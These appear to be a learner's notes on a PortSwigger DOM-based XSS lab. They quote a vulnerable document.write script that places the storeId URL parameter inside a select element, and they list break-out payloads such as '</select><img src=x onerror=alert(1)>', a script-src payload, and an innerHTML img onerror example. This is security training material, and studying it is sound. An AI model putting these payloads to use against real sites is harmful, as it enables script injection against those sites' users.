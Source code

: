 ![[xss-ports-bal3-2.png]]
Note, however, that in some situations the content that is written to `document.write` includes some surrounding context that you need to take account of in your exploit. For example, you might need to close some existing elements before using your JavaScript payload

### [Laboratory](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element)

![[xss-ports-bal4-1.png]]

```js
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');    document.write('<select name="storeId">');
if(store) {
	document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
	    continue;
	}
	document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
```
- payload
```html
'</select><script src='http://127.0.0.1/s.js'></script>
'</select><img src=x onerror=alert(1)>
'</select><script>alert(1)</script>
```



- The `innerHTML` sink doesn't accept `script` elements on any modern browser, nor will `svg onload` events fire. This means you will need to use alternative elements like `img` or `iframe`. Event handlers such as `onload` and `onerror` can be used in conjunction with these elements. For example:

`element.innerHTML='... <img src=1 onerror=alert(document.domain)> ...'`
## [Laboratory](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element)
 - when we select a city name ..
 - ![[xss-ports-bal4-1.png]]
- This is the code.
```js
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
	if(store) {
		document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
	if(stores[i] === store) {
		continue;
	}
	document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
```
- we see if storeId parameter To exist It is placed inside a select tag and an option tag.
- ![[xss-ports-bal4-2.png]]
- ok we have exploit